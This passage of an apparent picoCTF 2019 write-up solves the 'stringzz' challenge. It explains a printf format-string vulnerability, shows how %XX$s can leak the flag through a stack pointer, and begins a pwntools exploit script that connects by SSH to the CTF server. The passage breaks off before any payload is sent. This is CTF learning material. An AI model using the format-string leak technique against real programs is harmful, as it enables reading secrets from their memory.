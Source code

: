[Binary](/blog/picoctf-2019-writeup/binary-exploitation/stringzz/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/stringzz/vuln.c)

## Solution

As suggested by the description, this is a format string attack challenge where we are able to control the format string being passed to `printf`:

```c
void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
```

Another important information is that although the flag is loaded onto the heap, there's still a pointer to it located on the stack:

```c
char * buf = malloc(sizeof(char)*FLAG_BUFFER);
FILE *f = fopen("flag.txt","r");
fgets(buf,FLAG_BUFFER,f);
```

So if we do `%XX$s` with the correct offset, we can print out the flag.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")

def start():
  global sh
  if len(argv) < 2:
    stdout = process.PTY
    stdin = process.PTY

    sh = process(BINARY, stdout=stdout, stdin=stdin)

    # if DEBUG:
    #   attach_gdb()

    REMOTE = False
  else:
    sh = s.process('vuln', cwd='/problems/stringzz_2_a90e0d8339487632cecbad2e459c71c4')
    REMOTE = True

```